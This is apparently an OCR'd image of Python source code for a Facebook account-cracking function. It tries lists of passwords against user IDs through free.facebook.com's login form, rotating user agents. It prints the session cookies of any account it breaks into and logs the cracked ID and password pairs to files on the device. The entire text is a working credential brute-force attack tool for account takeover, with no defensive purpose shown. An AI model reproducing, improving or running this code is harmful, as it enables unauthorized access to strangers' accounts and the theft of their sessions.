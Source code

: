 def rcrack(uid,pwx,tl):
    #print(user)
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            free_fb = session.get('https://free.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {"authority": 'free.facebook.com',
            "method": 'GET',
            "scheme": 'https',
            "accept": 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.8',
            "accept-encoding": 'gzip, deflate, br',
            "accept-language": 'en-US,en;q=1',
            'cache-control': 'no-cache, no-store, must-revalidate',
            "referer": 'https://t.facebook.com/',
            "sec-ch-ua": '"Google Chrome";v="90", "Not)A;Brand";v="8", "Chromium";v="75"',
            "sec-ch-ua-mobile": '?1',
            "sec-ch-ua-platform": "Windows",
            "sec-fetch-dest": 'document',
            "sec-fetch-mode": 'navigate',
            "sec-fetch-site": 'same-origin',
            "sec-fetch-user": '?0',
            "pragma": 'no-cache',
            "priority": 'u=0',
            'cross-origin-resource-policy': 'cross-origin',
            "upgrade-insecure-requests": '1',
            "user-agent": pro}
            lo = session.post('https://free.facebook.com/login/device-based/regular/login/?refsrc',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print('    \033[1;32m(PAHORE-OKðŸ”¥)  ' +cid+ ' | ' +ps+    '  \n \033[1;33mCookie = \033[1;32m'+coki+  ' \n '+pro+'  \033[0;97m')
                cek_apk(session,coki)
                open('/sdcard/PAHORE-OK.txt', 'a').write( cid+' | '+ps+'\n')
                oks.append(cid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[24:39]
                print('    \33[1;30m(PAHORE-CPðŸ¤•)  ' +cid+ ' | ' +ps+           '  \33[0;97m')
                open('/sdcard/PAHORE-CP.txt', 'a').write( cid+' | '+ps+' \n')
                cps.append(cid)
                break
            else:
                continue
        loop+=1